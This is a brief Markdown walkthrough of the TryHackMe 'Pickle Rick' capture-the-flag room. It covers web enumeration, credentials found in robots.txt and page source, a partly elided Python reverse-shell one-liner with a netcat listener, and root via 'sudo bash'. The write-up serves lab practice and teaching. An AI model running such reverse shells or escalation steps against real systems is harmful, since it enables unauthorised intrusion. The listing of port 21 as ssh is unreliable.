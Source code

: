 ```yaml
---
title: Pickle Rick WalkThrough
premalink: /pickleRick
layout: page
tags: TryHackMe
---
```

# Picke Rick
# ![front](/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command
 	```
	 	python -c 'import ......os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	 ```

 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](/images/pickleRick/1st.png)
### 2nd Flag:
![user_flag](/images/pickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
    	```
      		'sudo bash'
    	```
### 3rd Flag:
![rootflag.png](/images/pickleRick/3rd.png)
